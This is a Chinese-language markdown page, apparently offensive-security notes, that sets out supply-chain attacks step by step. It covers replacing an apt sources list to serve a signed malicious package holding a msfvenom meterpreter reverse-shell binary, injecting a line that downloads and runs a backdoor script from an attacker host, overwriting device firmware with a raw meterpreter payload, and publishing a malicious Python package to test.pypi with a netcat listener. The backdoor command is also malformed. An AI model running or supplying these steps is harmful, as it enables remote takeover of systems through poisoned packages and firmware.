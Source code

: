### 安装源劫持

```bash
cat /etc/apt/sources.list
echo "deb http://IP地址或域名/repo/ ./" > /etc/apt/sources.list
mkdir -p /var/www/html/repo
```


repo目录里创建一个package目录，并在该目录里创建etc和DEBIAN目录

```bash
├── package
│   ├── etc
│   │   ├── linux_shell
│   │   └── hello.py
│   └── DEBIAN
│       └── control
```

linux_shell:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f elf > linux_shell
```

[control](供应链攻击/control)

```bash
cd repo
dpkg-deb --build package
```

[Release](供应链攻击/Release)

```bash
apt-get install gnupg
gpg --gen-key
dpkg-scanpackages . /dev/null | gzip -9c > Packages.gz
gpg --default-key "密钥ID" -abs -o - Release > Release.gpg
gpg --default-key "密钥ID" --clearsign -o InRelease Release
gpg --export -a "密钥ID" > public.key
```

```bash
apt-key add public.key
sudo apt update && sudo apt upgrade
```

### 软件后门

[backdoor.py](供应链攻击/backdoor.py)

注入后门

```bash
import os

//替换为攻击者地址
os.system("curl -O http://IP地址或域名/backdoor.py" && python backdoor.py)
```

### 纂改硬件设备

```bash
firmware-extractor --device /dev/sdX
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f raw > malicious.bin
dd if=malicious.bin of=网卡固件 bs=1 seek=$OFFSET conv=notrunc
dd if=恶意固件 of=/dev/sdX
```

[IoTGoat](https://github.com/OWASP/IoTGoat/releases/tag/v1.0)

```bash
binwalk -ev IoTGoat-raspberry-pi2.img --run-as=root
```

[firmwalker](https://github.com/craigz28/firmwalker)

```bash
./firmwalker.sh /root/hardware/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root
/etc/passwd | /etc/shadow
```

[/etc/rc.local](供应链攻击/rc.local)

```bash
cd squashfs-root
mksquashfs . ../new_filesystem.squashfs
```

```bash
binwalk IoTGoat-raspberry-pi2.img
cd _IoTGoat-raspberry-pi2.img.extracted
dd if=new_filesystem.squashfs of=../IoTGoat-raspberry-pi2.img bs=512 seek=57344 conv=notrunc
```

### 调用资源劫持

[malicious_package\__init__.py](供应链攻击/__init__.py)

[malicious_package\malicious_module.py](供应链攻击/malicious_module.py)

[setup.py](供应链攻击/setup.py)

```bash
├── README.md
├── setup.py
├── malicious_package
│   ├── __init__.py
│   ├── malicious_module.py
```

```bash
pip install setuptools wheel
python setup.py sdist bdist_wheel
```

[test.pypi.org](https://test.pypi.org)

```bash
pip install twine
twine upload --repository testpypi dist/* --verbose
pip install -i https://test.pypi.org/simple/ malicious-package
nc -lvp 4444
```

```python
from malicious_package import exploit
exploit()
```
